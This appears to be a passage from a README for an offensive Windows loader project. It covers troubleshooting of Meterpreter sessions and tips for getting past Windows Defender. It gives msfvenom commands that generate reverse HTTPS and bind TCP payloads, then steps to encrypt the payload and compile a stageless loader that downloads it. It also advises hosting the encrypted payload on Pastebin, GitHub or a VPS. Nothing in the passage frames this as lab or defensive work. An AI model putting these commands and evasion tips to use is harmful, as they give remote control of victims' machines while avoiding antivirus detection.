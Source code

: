 ### No Meterpreter session
- Check listener is running: `./start_listener.sh`
- Verify firewall allows the port
- Type `sessions -l` in Metasploit to check for sessions
- Session may take 5-10 seconds to establish

### Loader caught by Defender
- The **loader itself** should be clean (no MSFVenom)
- Defender may catch during **execution** (behavioral detection)
- Try on VM without Defender first
- Use different payload type (reverse_tcp vs reverse_https)

### Session dies immediately
- Use stageless payload (already configured)
- Check network connectivity
- Try simpler payload (shell_reverse_tcp)

---

## Advanced Usage

### Custom Payloads

Generate different payload types:

```bash
# Reverse HTTPS (more stealthy)
msfvenom -p windows/x64/meterpreter_reverse_https \
  LHOST=<IP> LPORT=443 -f raw -o reverse_shell.bin

# Bind TCP
msfvenom -p windows/x64/meterpreter_bind_tcp \
  LPORT=4444 -f raw -o reverse_shell.bin

# Encrypt and rebuild
python3 encrypt_payload.py reverse_shell.bin payload.enc
# Update stageless_loader.c with new key from payload_keys.h
x86_64-w64-mingw32-gcc -O2 -s stageless_loader.c -o stageless_loader.exe -lurlmon
```

### Remote Hosting

Instead of local HTTP server, host payload on:
- **Pastebin** (upload payload.enc, use raw URL)
- **GitHub** (use raw.githubusercontent.com URL)
- **Your VPS** (HTTPS recommended)

Update `stageless_loader.c` line 42 with new URL.

---

## Additional Resources
